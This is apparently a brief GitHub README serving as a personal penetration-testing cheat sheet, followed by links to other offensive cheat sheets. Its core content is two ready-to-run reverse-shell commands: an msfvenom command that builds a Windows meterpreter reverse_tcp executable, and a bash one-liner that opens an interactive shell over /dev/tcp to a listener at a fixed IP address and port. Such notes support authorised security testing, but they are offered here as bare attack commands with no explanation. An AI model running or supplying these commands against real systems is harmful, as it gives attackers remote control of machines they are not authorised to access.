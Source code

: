 # Pentesting CheatSheet
![Terminal](../Images/Hacking.gif)

This is a cheat sheet to pentesting it contains the code snippets i use during my pentesting job.

## ReverseShell
### Msfvenom Windows

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=tun0 LPORT=8989 -o /home/kali/Machine/Crafty/reverse.exe
```
### Bash

```bash
bash -i >& /dev/tcp/10.8.87.174/8888 0>&1
```


# Resource

- **[Read Team Notes](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)**
- **[Hausec](https://hausec.com/pentesting-cheatsheet/)**
- **[Pentest-Cheat-Sheets](https://github.com/Kitsun3Sec/Pentest-Cheat-Sheets)**
